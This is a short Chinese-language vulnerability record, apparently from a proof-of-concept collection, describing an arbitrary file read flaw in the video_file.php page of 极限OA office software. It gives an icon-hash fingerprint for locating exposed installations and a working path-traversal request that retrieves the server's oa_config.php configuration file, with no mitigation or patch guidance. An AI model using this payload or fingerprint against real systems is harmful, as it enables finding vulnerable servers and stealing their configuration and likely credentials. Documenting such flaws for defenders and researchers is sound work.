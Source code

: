 # 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
极限OA
```

## 网络测绘

```
icon_hash="1967132225"
```

## 漏洞复现

登录页面

![image-20220715111126095](./images/202207151111176.png)

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![image-20220715111241562](./images/202207151112653.png)